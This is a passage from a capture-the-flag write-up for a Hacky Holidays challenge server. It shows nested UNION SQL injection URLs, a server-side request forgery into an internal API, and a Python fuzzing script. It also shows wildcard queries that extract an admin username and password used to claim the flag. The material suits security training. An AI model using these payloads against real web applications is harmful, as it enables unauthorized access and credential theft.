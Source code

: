 ```

returned all the rows now we now needed to include with file names so as test we try /api/  /api/test/

```
1. /api/
Req-a
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=6860'+UNION+ALL+SELECT+"12'+UNION+ALL+SELECT+1,1,\"../api/\"--+-",NULL,"test'"--+-
Req-b
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcLyIsImF1dGgiOiIwNWE3ZTcwOGE1ZjNkYTc2NTA2MDIzMDQ3NjI4ODI5ZCJ9

Response : Invalid content type detected

2. /api/test/
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=3230'+UNION+ALL+SELECT+"12'+UNION+ALL+SELECT+1,1,\"../api/test\"--+-",NULL,"test'"--+-

Req-b
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3Rlc3QiLCJhdXRoIjoiOWQ0M2MwMDQ4MjMzNWFiYzhjZmRmNjM3YzAwNWJkZDYifQ==

Response: Expected HTTP status 200, Received: 404
```

So here now we need to fuzz the /api/  i have used 2 files for [ files](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt) and [parameters](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/burp-parameter-names.txt)
since this could not be done by any tool in my knowledge i used a simple python script as:

```
payloads=open('apiwordlist.txt',"r")
sql1='''33230'+UNION+ALL+SELECT+"12'+UNION+ALL+SELECT+1,1,\"../api/'''
sql2='''\"--+-",NULL,"test'"--+-'''
url='https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=+sql1+payloads+sql2'

t1=requests.get(url).text
searchdata=re.search("data=(.*cL3VwbG9hZHNcLy.*)\"", t1).group(1)
t2=requests.get("http://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=+searchdata")

if "Received: 404" not in t2.text:
    print(t2.text, payloads)

```

Now after fuzzing we got ```/user and /ping``` as a directory then again we used this time paramter bruteforcing after /user?+payloads which returned us with ```username and password```  as valid parameters now to exfil the values in api we can use % character which would return us with if value/ like  exists so for that we fuzzed with the same logic in iterations as 
and payloads with alphanumeric  a-z0-9
 username as /api/user?username=a%
password as  /api/user?password=a% which gave values 
```
/api/user?username=grinchadmin%
/api/user?password=s4nt4sucks%
```

Now after this we go to login page https://hackyholidays.h1ctf.com/attack-box and enter these credentials grinchadmin:s4nt4sucks we get our flag and final challenge .

{F1131557}

~~Grinch Recon Server Down~~

### flag{07a03135-9778-4dee-a83c-7ec330728e72}
```